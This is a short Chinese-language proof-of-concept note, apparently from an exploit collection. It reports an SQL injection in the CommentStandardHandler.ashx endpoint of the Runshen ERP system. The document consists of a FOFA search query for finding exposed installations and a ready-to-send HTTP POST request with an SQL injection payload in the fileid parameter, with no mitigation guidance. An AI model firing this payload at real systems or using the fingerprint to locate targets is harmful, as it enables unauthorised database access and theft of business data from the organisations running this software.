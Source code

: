 # 润申信息科技ERP系统CommentStandardHandler.ashx接口存在sql注入漏洞



## fofa

```yaml
body="PDCA/js/_publicCom.js"
```

## poc

```java

POST /PDCA/ashx/CommentStandardHandler.ashx HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36

action=detailInfo&fileid=1+and+%01(select+SUBSTRING(sys.fn_sqlvarbasetostr(HASHBYTES('MD5','123')),3,32))<0--
```

